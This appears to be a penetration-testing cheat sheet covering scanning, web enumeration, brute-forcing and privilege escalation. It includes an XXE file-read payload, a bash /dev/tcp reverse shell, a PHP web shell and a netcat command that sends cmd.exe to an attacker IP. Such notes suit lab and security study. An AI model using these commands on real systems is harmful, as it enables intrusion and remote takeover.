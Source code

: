 # Target enumeration

## Remote
1. `nmap <ip> -p-` (all ports) 
    - `-sU` (UDP) `-Pn` (skip host discovery)`
    - `-A` (implies `-O` (OS), `-sC` (scripts), `-sV` (version))
    - `-f` (fragment packets) `-D` (decoy)
2. Webservers
    - Spider website (e.g. using Burp Suite Proxy without intercept)
    - Enumerate subdomains and dirs (e.g. with `gobuster`)
    - Vulnerabilities with OWASP
    - Enumerate login forms
        - `hydra -L <file> -P <file>`
    - XSS, SQL-Injection
    - XXE/XEE
        - `<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>`
    - Path traversal
        - .htpasswd
        - /etc/passwd
        - /etc/group
3. Monitor TCP/IP traffic (e.g. LDAP) `sudo tcpdump -i tun0 port 389`

## On site
1. Processes
    - `ps aux`
2. Ports
    - `ss`
    - `netstat -tunlp`
        - `-t` (TCP)
        - `-u` (UDP)
        - `-n` (No service resolution)
        - `-l` (Only listening)
        - `-p` (Process info)

    - `lsof`
3. File system
    - Interesting text data
        - `find . -type f -name '<glob pattern>' | xargs cat | grep -i <glob pattern>`
    - .ssh folder
    - Binaries
        - Find binaries with permissions for user group `find / -group <group_name> 2>/dev/null`
        - Query infos about files `ls -la <path_to_file> && file <path_to_file>`
        - Append PATH `export PATH=<directory>:$PATH`
        - Check vulnerable binaries https://gtfobins.github.io/
        - Inspection/Injection: `pwn`, `cutter`, `Ghidra`


# Remote code execution
1. Access OS shell
    - Set up reverse shell with `nc -lvnp <port>`
        - `/usr/share/webshells/php/php-reverse-shell.php`, `<?php echo system($_REQUEST['cmd']);?>`
        - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
    - Spawn fully interactive shell
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` CTRL+Z `stty raw -echo` `fg` `export TERM=xterm`
    - Use ssh if credentials found at some point
    - Windows: use `nc64.exe -e cmd.exe <my ip> <port>`


# Privilege escalation
1. User permissions: `whoami`, `id`, `sudo -l` or Windows `whoami /priv`, `icacls`
2. User groups
    - `lxd`: Containers
3. Windows: `impacket-psexec`


# Password cracking
1. Use Google as Rainbow Table


# Privacy
1. Tails
2. Proxychains with TOR
